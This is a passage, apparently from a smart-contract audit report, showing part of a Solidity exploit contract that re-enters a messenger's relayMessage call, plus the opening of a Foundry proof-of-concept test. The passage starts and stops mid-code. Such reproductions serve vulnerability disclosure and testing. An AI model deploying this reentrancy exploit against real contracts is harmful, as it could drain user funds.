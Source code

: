 ```solidity
        value += 1 wei;

        bytes memory message = abi.encodeWithSelector(
            Exploit.call.selector,
            messager,
            3,
            _sender,
            _target,
            0 wei,
            _minGasLimit
        );
  
        RelayMessagerReentrancy(messager).relayMessage(
            oldValue, 
            _sender, 
            _target,
            0,
            _minGasLimit, 
            message
        );

    }

}
```

the POC is

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Test.sol";
import "../src/Exploit.sol";
import "../src/RelayMessagerReentrancy.sol";
import "../src/Portal.sol";
import "forge-std/console.sol";

contract CounterTest is Test {

    RelayMessagerReentrancy messager = new RelayMessagerReentrancy(address(this));
    Exploit exploit = new Exploit(address(messager));
    Portal portal = new Portal(address(messager));

    uint256 nonce = 1;
    address sender = address(this);
    address target = address(exploit);
    uint256 value = 0;
    uint256 minGasLimit = 100000000 wei;

    function createMessage() public returns (bytes memory) {

        bytes memory message = abi.encodeWithSelector(
            Exploit.call.selector,
            messager,
            3,
            sender,
            target,
            0,
            minGasLimit
        );

        return message;

```